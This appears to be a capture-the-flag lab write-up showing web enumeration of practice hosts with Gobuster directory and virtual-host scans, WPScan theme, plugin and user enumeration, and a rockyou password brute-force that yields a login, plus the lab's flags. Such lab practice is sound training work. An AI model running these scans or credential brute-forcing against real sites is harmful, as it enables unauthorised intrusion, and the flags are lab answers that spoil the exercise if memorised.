> Web Enumeration | Gobuster | Wpscan | Nikto

# Gobuster - Basic

gobuster dir -u http://webenum.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial

```
/images               (Status: 301) [Size: 311] [--> http://webenum.thm/images/]
/public               (Status: 301) [Size: 311] [--> http://webenum.thm/public/]
/css                  (Status: 301) [Size: 308] [--> http://webenum.thm/css/]   
/js                   (Status: 301) [Size: 307] [--> http://webenum.thm/js/]    
/Changes              (Status: 301) [Size: 312] [--> http://webenum.thm/Changes/]
/VIDEO                (Status: 301) [Size: 310] [--> http://webenum.thm/VIDEO/]
```

# Gobuster - Inside Changes

gobuster dir -u http://webenum.thm/Changes -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x conf,js -o gobuster/Changes_sub

```
000-default.conf	 
bootstrap.js
changes.conf
```

And navigating to `http://webenum.thm/VIDEO` gives us the flag.

# flag.php

```
thm{n1c3_w0rk}
```

# Gobuster - Virtual Hosts

gobuster vhost -u http://webenum.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -o gobuster/vhosts_scan

```
Found: learning.webenum.thm (Status: 200) [Size: 13245]
Found: products.webenum.thm (Status: 200) [Size: 4941]
```

gobuster dir -u http://products.webenum.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt -o products_vhost

```
/flag.txt             (Status: 200) [Size: 21]
```

# Flag.txt

```
thm{gobuster_is_fun}
```

# Wpscan - Enumerate Themes

wpscan --url http://wpscan.thm/ -e t

```
[+] WordPress theme in use: twentynineteen
 | Location: http://wpscan.thm/wp-content/themes/twentynineteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://wpscan.thm/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.0
 | Style URL: http://wpscan.thm/wp-content/themes/twentynineteen/style.css?ver=1.0
 | Style Name: Twenty Nineteen
 | Style URI: https://github.com/WordPress/twentynineteen
 | Description: A new Gutenberg-ready theme....
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
```

# Nitko - Enumerate Plugins

wpscan --url http://wpscan.thm/ -e p

```
[+] nextcellent-gallery-nextgen-legacy
 | Location: http://wpscan.thm/wp-content/plugins/nextcellent-gallery-nextgen-legacy/
 | Latest Version: 1.9.35 (up to date)
 | Last Updated: 2017-10-16T09:19:00.000Z
 |
 | Found By: Comment (Passive Detection)
 |
 | Version: 3.5.0 (60% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://wpscan.thm/, Match: '<meta name="NextGEN" version="3.5.0"'

[+] nextgen-gallery
 | Location: http://wpscan.thm/wp-content/plugins/nextgen-gallery/
 | Last Updated: 2021-04-20T14:23:00.000Z
 | [!] The version is out of date, the latest version is 3.9.3
 |
 | Found By: Comment (Passive Detection)
 |
 | Version: 3.5.0 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://wpscan.thm/, Match: '<meta name="NextGEN" version="3.5.0"'
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://wpscan.thm/wp-content/plugins/nextgen-gallery/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://wpscan.thm/wp-content/plugins/nextgen-gallery/readme.txt
```

# Wpscan - Enumerate Users

wpscan --url http://wpscan.thm/ -e u

```
[i] User(s) Identified:

[+] Phreakazoid
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] phreakazoid
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

# Password Bruteforce

wpscan --url http://wpscan.thm -U phreakazoid -P /usr/share/wordlists/rockyou.txt

```
[!] Valid Combinations Found:
 | Username: phreakazoid, Password: linkinpark
```